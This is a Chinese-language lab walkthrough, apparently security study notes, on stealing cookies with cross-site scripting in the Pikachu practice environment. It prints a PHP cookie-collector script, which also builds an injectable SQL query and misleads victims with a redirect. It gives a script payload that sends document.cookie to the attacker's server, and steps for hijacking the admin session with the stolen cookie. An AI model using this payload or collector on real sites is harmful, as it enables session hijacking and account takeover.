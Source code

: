 ## 获取cookie
### 1、获取cookie的js脚本
```shell script
root@f2e1fe30d200:/var/www/html/pkxss/xcookie# cat /var/www/html/pkxss/xcookie/cookie.php 
<?php
include_once '../inc/config.inc.php';
include_once '../inc/mysql.inc.php';
$link=connect();

//这个是获取cookie的api页面

if(isset($_GET['cookie'])){
    $time=date('Y-m-d g:i:s');
    $ipaddress=getenv ('REMOTE_ADDR');
    $cookie=$_GET['cookie'];
    $referer=$_SERVER['HTTP_REFERER'];
    $useragent=$_SERVER['HTTP_USER_AGENT'];
    $query="insert cookies(time,ipaddress,cookie,referer,useragent) 
    values('$time','$ipaddress','$cookie','$referer','$useragent')";
    $result=mysqli_query($link, $query);
}
header("Location:http://172.16.120.252:8085/pikachu/index.php"); //重定向到一个可信的网站,让用户迷惑的,如果想获取百度的cookie,最后可以重定向到百度的首页

?>
```
### 2、盗取cookie的payload
#### 下面的地址，是存放js脚本的地址，需要自己搭建
```shell script
<script>document.write('<img src="http://172.16.120.252:8085/pkxss/xcookie/cookie.php?cookie='+document.cookie+'"/>')</script>
```
插入一个img标签进来，img的源是：http://172.16.120.252:8085/pkxss/xcookie/cookie.php?cookie=
![image](https://github.com/498946975/Security/blob/master/images/xss_18.png)
### 3、提交成功之后，需要登陆网站后台进行查看，获取管理员后台的用户名和密码
http://172.16.120.252:8085/vul/xss/xssblind/admin_login.php
![image](https://github.com/498946975/Security/blob/master/images/xss_11.png)
### 4、然后到xss后台查看结果
http://172.16.120.252:8085/pkxss/pkxss_login.php
![image](https://github.com/498946975/Security/blob/master/images/xss_12.png)

### 5、获取cookie之后，需要用cookie进行登陆
### 6、首先下载插件cookie editor
![image](https://github.com/498946975/Security/blob/master/images/xss_13.png)
### 7、登陆后台页面
http://172.16.120.252:8085/vul/xss/xssblind/admin.php
后台登陆页面获取方式：
    1、暴力破解
    2、猜
    3、框架固定格式
    4、爬虫
由于没有登陆，则重定向到了http://172.16.120.252:8085/vul/xss/xssblind/admin_login.php
### 8、把刚才第四部的图片里面的cookie的信息，增加到cookie editor
![image](https://github.com/498946975/Security/blob/master/images/xss_14.png)
### 9、再次访问http://172.16.120.252:8085/vul/xss/xssblind/admin.php，就可以登陆了